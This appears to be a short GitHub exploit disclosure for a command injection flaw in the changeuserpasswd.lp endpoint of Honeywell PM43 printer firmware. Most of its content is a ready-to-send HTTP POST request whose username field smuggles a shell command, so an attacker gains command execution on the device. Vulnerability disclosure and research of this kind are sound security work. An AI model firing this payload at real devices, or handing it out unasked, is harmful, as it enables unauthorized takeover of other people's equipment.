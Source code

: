 

#### Exploit Title

Honeywell Products changeuserpasswd.lp command execution

#### Exploit Author

[webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.honeywell.com

#### Version

Honeywell PM43 P10.19.050004

#### Description

There is a command execution vulnerability in Honeywell Products, through which an attacker can gain server privileges。

#### Payload used

![image-20231212105242158](./image-20231212105242158.png)

```
POST /changeuserpasswd.lp HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_16_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf=9467508602534952371f4aa348a930869a0c61de06e2f4df0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

username=test;id>tmp/test2.txt;&userpassword=123456&pageid=1
```

![image-20231212105401293](./image-20231212105401293.png)

![image-20231212105412842](./image-20231212105412842.png)
